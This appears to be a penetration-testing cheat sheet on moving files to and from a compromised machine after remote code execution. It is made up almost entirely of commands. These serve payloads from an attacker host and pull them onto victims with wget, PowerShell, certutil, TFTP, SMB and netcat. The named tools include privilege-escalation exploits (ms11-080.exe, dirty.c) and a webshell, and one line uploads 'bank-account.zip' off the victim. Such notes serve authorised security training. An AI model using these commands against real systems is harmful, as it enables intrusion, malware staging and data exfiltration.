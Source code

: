 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

#### HTTP
```
sudo service apache2 start
/var/www/html
wget http://192.168.1.42/go.exe
```

#### SIMPLE HTTP
```python SimpleHTTPServer.py```

Will serve up on port 8000 in the folder you run the script from

#### TFTP
```
atftpd --daemon --port 69 /tftp
cd /tftp touch incoming chmod 777 incoming
tftp -i 10.11.0.185 GET test.txt
tftp -i 10.11.0.185 PUT bank-account.zip incoming
```

#### SMB
```
smbserver.py [sharename] /tmp/smbserve/
Dir \\192.168.1.48\sharename
\\192.168.1.48\sharename\go.exe
```





# File Transfer - Windows
``tftp -i 10.11.0.185 GET test.txt``

```cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe```
#### Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe", "C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

#### SimpleSMBServer
```smbserver.py lecon /var/www/html```

#### SimpleHTTPServer
```python -m SimpleHTTPServer```

#### FTP


# Linux
```wget http://10.11.0.158/dirty.c -O /tmp/dirty.c```

```scp root@10.11.0.158:~/Downloads/dirty.c .```

#### netcat

```
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```








# Windows lolbins
[BitsAdmin ](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

```certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>```
